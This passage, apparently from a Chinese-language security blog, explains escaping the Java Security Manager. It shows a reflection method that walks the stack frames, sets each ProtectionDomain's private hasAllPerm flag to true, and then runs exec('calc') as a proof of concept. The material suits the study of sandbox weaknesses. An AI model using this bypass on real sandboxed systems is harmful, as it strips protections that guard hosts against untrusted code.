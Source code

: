 看来，通过反射直接修改security是不行的了。这游戏真难。

然而，java的反射何其强大，既然负责检查的检察官java security manager不可修改，那我就修改你检查的材料—ProtectionDomain。于是我看了一下ProtectionDomain类：<br>
java.security.ProtectionDomain

```
public class ProtectionDomain `{`
    //.....省略部分代码
    static `{`
        // Set up JavaSecurityAccess in SharedSecrets
        SharedSecrets.setJavaSecurityAccess(new JavaSecurityAccessImpl());
    `}`

    /* CodeSource */
    private CodeSource codesource ;

    /* ClassLoader the protection domain was consed from */
    private ClassLoader classloader;

    /* Principals running-as within this protection domain */
    private Principal[] principals;

    /* the rights this protection domain is granted */
    private PermissionCollection permissions;

    /* if the permissions object has AllPermission */
    private boolean hasAllPerm = false;

    /* the PermissionCollection is static (pre 1.4 constructor)
       or dynamic (via a policy refresh) */
    private boolean staticPermissions;

    //.....省略部分代码
```

如前面所说，一个类的CodeSource和permissions构成了这个类的ProtectionDomain，亦可通过这里来验证。仔细看一遍，发现hasAllPerm可能是个软柿子，应该是一个标记这个类是否有所有权限的布尔变量。利用反射，把它置为true应当可以使当前类获取所有权限。

但是AccessController会沿着栈自顶向下检查，必须所有栈帧都有权限才能通过。不慌，那我们也遍历所有栈帧，将所有栈帧中的所有类的ProtectionDomain中的hasAllPerm置为true。代码如下：

```
public static void setHasAllPerm()`{`

        StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();
        //遍历栈帧
        for (StackTraceElement stackTraceElement : stackTraceElements) `{`
            try `{`
                //反射当前栈帧中的类
                Class clz = Class.forName(stackTraceElement.getClassName());
                Field field = clz.getProtectionDomain().getClass().getDeclaredField("hasAllPerm");
                //压制java的访问检查
                field.setAccessible(true);
                //把hasAllPerm置为true
                field.set(clz.getProtectionDomain(), true);
            `}`catch (Exception e)`{`
                e.printStackTrace();
            `}`
        `}`
        exec("calc");
    `}`
```
